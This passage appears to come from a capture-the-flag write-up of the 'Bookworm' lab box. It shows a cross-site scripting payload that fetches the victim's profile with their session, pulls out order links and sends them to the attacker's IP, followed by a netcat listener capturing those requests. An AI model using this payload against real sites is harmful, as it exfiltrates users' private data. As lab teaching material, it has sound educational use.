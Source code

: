      </tbody>
    </table>



#### Order Page

There's a note on the `/basket` page about being able to download
earlier orders as e-books:

![](/img/image-20240116131019079.png)

To see what that looks like, I'll check out these orders, updating my
script first to:



    fetch('/profile', {credentials: "include"})
    .then((resp) => resp.text())
    .then((resptext) => {
      var regex = /\/order\/\d+/g;
      while ((match = regex.exec(resptext)) !== null) {
        fetch("http://10.10.14.6" + match);
      };
    });



I'll run `nc -klnvp 80` so that it stays open and handles multiple
requests on 80. When this executes, I get the IDs from the target
profile:



    oxdf@hacky$ nc -lnkvp 80
    Listening on 0.0.0.0 80
    Connection received on 10.10.11.215 44720
    GET /order/16 HTTP/1.1
    Host: 10.10.14.6
    Connection: keep-alive
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/119.0.6045.199 Safari/537.36
    Accept: */*
    Origin: http://bookworm.htb
    Referer: http://bookworm.htb/
    Accept-Encoding: gzip, deflate

    Connection received on 10.10.11.215 44722
    GET /order/17 HTTP/1.1
    Host: 10.10.14.6
    Connection: keep-alive
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/119.0.6045.199 Safari/537.36
    Accept: */*
    Origin: http://bookworm.htb
    Referer: http://bookworm.htb/
    Accept-Encoding: gzip, deflate
